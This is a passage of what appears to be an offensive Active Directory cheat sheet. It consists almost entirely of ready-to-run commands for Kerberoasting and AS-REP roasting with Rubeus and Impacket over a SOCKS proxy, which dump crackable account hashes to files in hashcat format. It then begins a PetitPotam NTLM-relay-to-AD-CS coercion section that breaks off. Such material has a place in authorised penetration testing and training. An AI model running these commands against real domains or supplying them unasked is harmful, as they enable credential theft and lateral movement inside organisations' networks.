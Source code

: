 # Kerberoast specific user
execute-assembly C:\Rubeus.exe kerberoast /outfile:KerbHash.txt /user:testaccount /domain:lab.com
```

Impacket kerberoasting through SOCKS
```
# Target specific kerberoastable user
proxychains impacket-GetUserSPNs -dc-ip X.X.X.X -request-user "TargetUSER" -outputfile roast-TargetUser.txt '<DOMAIN>/<USER>:<PASSWORD>'

# Target all kerberoastable domain users
proxychains impacket-GetUserSPNs -dc-ip X.X.X.X -target-domain "TargetDOMAIN" -outputfile roast-Domain.txt '<DOMAIN>/<USER>:<PASSWORD>'
```

### AS-REP Roasting
Target users in AD that do not require pre-authentication<br />
```
# AS-REP roast all users with Rubeus
execute-assembly C:\Rubeus.exe asreproast /format:hashcat /outfile:C:\Temp\asrep-hashes.txt

# AS-REP roast specific user with Rubeus
execute-assembly C:\Rubeus.exe asreproast /user:testuser /format:hashcat /outfile:C:\Temp\asrep-hashes.txt
```

Impacket AS-REP roast through SOCKS
```
# Target specific users in 'users.txt' file
proxychains impacket-GetNPUsers -usersfile users.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip X.X.X.X '<DOMAIN>/<USER>:<PASSWORD>'
```

### Coercion attacks
#### [PetitPotam](https://github.com/topotam/PetitPotam) - NTLM relay to AD CS
> PoC tool to coerce Windows hosts to authenticate to other machines via MS-EFSRPC EfsRpcOpenFileRaw or other functions
- Requires AD CS web server enrollment enabled
- Requries Kali running Impacket on target domain
```
# Find AD CS web server and verify if web enrollment is enabled by browsing to the URL: `http://ADCS-server.domain.com/certsrv/`
run certutil.exe
